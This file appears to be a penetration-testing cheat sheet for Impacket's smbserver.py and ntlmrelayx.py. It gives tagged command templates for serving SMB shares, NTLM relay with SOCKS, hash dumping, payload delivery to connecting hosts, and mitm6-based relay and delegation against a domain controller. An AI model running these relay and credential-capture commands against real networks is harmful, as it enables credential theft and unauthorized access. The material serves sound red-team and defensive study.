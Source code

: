 # Impacket

## smbserver - share smb folder
#platform/linux #target/serve #port/445 #protocol/smb #cat/ATTACK/LISTEN-SERVE 

A Python implementation of an SMB server. Allows to quickly set up shares and user accounts.

```
smbserver.py <shareName> <sharePath>
```

## smbserver - share smb folder with authentication
#platform/linux #target/serve #port/445 #protocol/smb #cat/ATTACK/LISTEN-SERVE 

```
smbserver.py -username <username> -password <password> <shareName> <sharePath>
```

## ntlmrelay - host a payload that will automatically be served to the remote host connecting
#platform/linux #target/serve #cat/ATTACK/MITM 

```
ntlmrelayx.py -tf <targets_file> -smb2support -e <payload_file|payload.exe>
```

## ntlmrelay - socks
#platform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -tf <targets_file> -socks -smb2support
```

## ntlmrelay - authenticate and dump hash
#platform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -tf <targets_file> -smb2support
```

## ntlmrelay - to use with mitm6 - relay to target
#platform/linux #target/serve #cat/ATTACK/MITM 
Next use the socks with proxychains : 
proxychains smbclient //ip/Users -U domain/user

```
ntlmrelayx.py -6 -wh <attacker_ip> -t smb://<target> -l /tmp -socks -debug
```

## ntlmrelay - to use with mitm6 - delegate access
#platform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -t ldaps://<dc_ip> -wh <attacker_ip> --delegate-access
```
